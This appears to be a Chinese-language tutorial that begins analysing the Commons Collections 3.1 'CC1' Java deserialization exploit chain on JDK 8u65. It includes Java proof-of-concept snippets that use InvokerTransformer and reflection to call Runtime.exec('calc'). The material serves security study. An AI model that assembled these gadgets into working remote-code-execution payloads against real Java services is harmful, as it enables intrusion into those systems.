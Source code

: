 # 分析版本

Commons Collections 3.1

JDK 8u65

环境配置参考

[配置]: https://xz.aliyun.com/t/12669?time__1311=mqmhDvqIxfgD8DlxGo4%2BxCw67o7KKG%3Dz4D&amp;alichlgref=https%3A%2F%2Fwww.google.com%2F

# 分析过程

首先看下CC1利用链的RCE利用点，在接口Transformer

![image-20240624170550724](https://s2.loli.net/2024/06/24/9Hcdyio18EzYDaw.png)

接下来查看此接口的实现类，右键Go To Implementation

![image-20240624170711205](https://s2.loli.net/2024/06/24/iDdezLKBk9CjJs2.png)

去看这些实现类的源码，最后在InvokerTransformer类中找到了利用点，反射。

![image-20240624170846045](https://s2.loli.net/2024/06/24/7XGNqZmsoxfDCjc.png)

根据RCE利用点的代码，可以先把POC写一部分，之后慢慢改。(注释是一行实现)

```java
        Runtime runtime = Runtime.getRuntime();
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
        invokerTransformer.transform(runtime);
//new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}).transform(runtime);
```

我们现在有了利用点，就要向上找使用，最后找到序列化的方法利用链才完成。

**在这里先插入一个Runtime类的序列化问题**，Runtime类是不能反序列化的。看下Runtime类源码

```java
    private static Runtime currentRuntime = new Runtime();
    public static Runtime getRuntime() {
        return currentRuntime;
    }
```

getRuntime方法返回了一个实例化的Runtime。

考虑利用反射获取Runtime原型类，调用getRuntime方法去实例化Runtime。

```java
        Class runtime = Class.forName("java.lang.Runtime");
        Method getRuntime = runtime.getDeclaredMethod("getRuntime");
        Runtime r = (Runtime) getRuntime.invoke(null, null);   //获取runtime实例化对象

        Method exec = runtime.getDeclaredMethod("exec", String.class);
        exec.invoke(r,"calc");
```
